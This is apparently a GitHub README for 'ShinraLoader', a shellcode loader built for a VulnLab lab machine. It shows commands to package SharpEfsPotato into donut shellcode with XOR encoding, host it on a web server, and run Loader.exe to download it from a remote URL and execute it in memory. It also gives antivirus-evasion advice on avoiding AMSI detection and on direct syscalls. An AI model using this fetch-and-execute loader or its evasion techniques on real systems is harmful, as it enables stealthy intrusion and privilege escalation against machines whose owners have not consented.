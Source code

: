 # ShinraLoader
Shellcode loader that I created to use for VulnLab's Shinra.
Requires donut: https://github.com/TheWover/donut
```sh
pip install donut-shellcode
```
Usage: Create your payload
```sh
python donutGenerator.py -i SharpEfsPotato.exe -b 1 --args='-p calc.exe' -x "HelloWorld"
```
Host the file on a web server and use the loader to download into memory and execute
```powershell
.\Loader.exe /p:http://example.com/payload.bin /x:HelloWorld
```
Omit -x and /x: if not using XOR functionality.

Donut doesn't bypass amsi anymore (AMSI_Patch_T.B12), so I recommend making sure your payloads don't trigger it before sending them off. Add the flag -b 1 to avoid your shellcode being created with the now non-functional amsi-bypass.

Inspired by my teammate Mane: https://github.com/manesec/shellcodeloader4mane

Using syswhispers3 syscalls: https://github.com/klezVirus/SysWhispers3
